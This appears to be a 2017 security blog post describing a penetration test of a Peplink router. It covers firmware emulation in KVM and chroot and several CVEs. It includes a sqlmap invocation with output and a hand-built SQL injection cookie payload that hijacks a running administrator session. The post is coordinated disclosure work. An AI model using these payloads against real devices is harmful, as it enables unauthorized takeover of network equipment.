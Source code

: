 # Basic embedded security testing using KVM

https://x41-dsec.de/lab/blog/24smiley/

During a recent penetration test for a customer, Claus and I noticed a Peplink router web interface exposed to the Internet. While I noticed an XSS (CVE-2017-8839) Claus spotted strange behavior with an overly long ```bauth``` cookie. This peaked our interest of course.

The next logical step was to fingerprint the device, to get to know more about the specific model and firmware version. Due to a configuration error, it was possible to download some of the CGI files in their binary form. Since these turned out to be 64-bit ELF executables, we got even more curious. In order to identify the correct make and model, I downloaded all firmware files available from the peplink website, and extracted them using binwalk. Everything with ARM files was directly discarded and after some poking, ```fw-b305hw2_-380hw6_-580hw2_-710hw3_-1350hw2_-2500-7.0.0-build1904.bin``` seemed to be our canidate for further inspection, which was the most current version for this line of models.

Binwalk extracted a Linux EXT2 filesystem, which we were able to mount via loopback for further inspection. Inside were some bootdata.bin files. While I fiddled with binwalk to get the data inside them out for further inspection, Claus came up with a way to simply boot those files in a KVM container: ```kvm -m size=128 --kernel bootdata1.bin --append "root=/dev/ram0 ramdisk_size=131072 console=tty0 fw=1 init=/bin/sh" --initrd bootdata2.bin```.

This made the first analysis much easier, but we wanted more. Since it was not really a nice working environment inside the container and networking did not want to work, I extracted the files on the filesystem and poked them until I was able to run them inside a chroot()-Environment on my machine. This allowed me to easily copy tools and helpers into the peplink environment for further investigations.

The first thing to inspect was of course the crash. Since the CGI specification specifies the passing of data and variables via environment variables, I was quickly able to reproduce the issue and generate a coredump. The signal 7 hinted, that the cause for the crash was a write into a non writable region. An inspection in IDA showed, that the write seems to be into a guard page, due to the variable being assigned at the end of a page. No interesting data seemed to be overwritten in between the variable and the guard page. Close but no cigar :(

While Claus continued looking at other systems, I continued investigating the chrooted firmware. Using ltrace and fiddling with ltrace.conf, I was able to see which variables the different CGI scripts parsed easily, since they used the ```libcgi.so``` helper library. Going trough the scripts, another XSS (CVE-2017-8838) was quickly spotted as well as an information leak (CVE-2017-8840), which provided the serial number of the device and internal IP address.

Still not being able to get a valid session, I glanced around to see how the login process worked. The login process parsed the files ```/etc/waipass``` and ```/etc/roapass``` and visiting the related parts in IDA, it was revealed, that not much processing happened. After entering a plain text password into the ```waipass ```file, I was able to login and generate a valid session in my chrooted environment.

This allowed me to inspect further code paths, which were previously not accessible. Another issue, quickly spotted, was the missing CSRF protection CVE-2017-8836, which allowed to change everything, if a logged in administrator is successfully attacked. Unfortunately, this kind of attack was out of scope for our test, so still no luck.

With the last day of the penetration test already running and the feeling that there should be a bug, giving us more access, I was motivated even tough we already popped some other machines. Another issue which allowed a DoS via file deletion as a logged in administrator CVE-2017-8841, by abusing the firmware update process did not help us to gain further access. So back to the login process and session handling. The session variable, which is passed around via the bauth cookie variable is stored in an sqlite database. So why not try a simple SQL injection. We did try this before, and saw strange behavior, but got sidetracked by the crash due to an overly long cookie value. The usual tool of choice was to use sqlmap against the live system and let it do all the magic work:
```
$ ./sqlmap.py -u "https://ip/cgi-bin/MANGA/admin.cgi" --cookie="bauth=csOWLxU4B[...]xH16426647" -p"bauth" --level 5 --risk 3 --dbms sqlite --technique=BEUSQ --flush-session -t trace.log --prefix "'" --suffix "--" -a

sqlmap identified the following injection point(s) with a total of 258 HTTP(s) requests:
---
Parameter: bauth (Cookie)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: bauth=-5663' OR 9790=9790--
---
[13:51:56] [INFO] testing SQLite
[13:51:56] [INFO] confirming SQLite
[13:51:56] [INFO] actively fingerprinting SQLite
[13:51:56] [INFO] the back-end DBMS is SQLite
[13:51:56] [INFO] fetching banner
[13:51:56] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[13:51:56] [INFO] retrieved: 3.8.11.1
back-end DBMS: SQLite
banner:    '3.8.11.1'
```
Unfortunately, I was not able to extract much data, since the brute force of the table structure always failed. After a certain point, the query got too long and caused the crash. So I checked the structure in my chrooted environment in order to help sqlmap to extract data, but somehow it did not work. So back to the drawing board to see how to exploit this manually. The first thing I was interested in, was to see which queries arrived at the database layer exactly. Since ```libsqlite3.so``` was used by the CGI script, I grabbed a copy of the source code and patched it to simply log the queries received into a file. This allowed me to construct a query to simply select an already running administrator session to be used for my login
```
bauth=-12' or id IN (select s.id from sessions as s left join sessionsvariables as v on v.id=s.id where v.name='rwa' and v.value='1') or '1'='2'
```
This SQL injection CVE-2017-8835 finally allowed us access to the device as long as an administrator session is running. With the last day of the penetration test already over, I wrote everything up for the customer and finished the report. The customer took the web interface offline the next day in order to no longer expose this attack surface to the internet, while I started contacting peplink in order to get this fixed for everybody. The updated firmware was released on 05.06.2017 by peplink.

Author: Eric Sesterhenn
Date: 2017-06-05 00:00:00 +0200

tags: #hardware #pentest #links 

